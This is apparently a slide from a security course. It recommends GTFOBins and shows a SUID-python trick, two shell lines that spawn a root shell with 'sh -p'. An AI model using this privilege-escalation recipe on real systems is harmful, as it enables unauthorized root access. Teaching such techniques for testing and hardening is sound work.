

Usefull site to gain root access with an app badly configured.
if python have the SUID set :
sudo install -m =xs $(which python)
./python -c ‘import os; os.execl(“/bin/sh”,”sh”,”-p”)’
# GTFOBins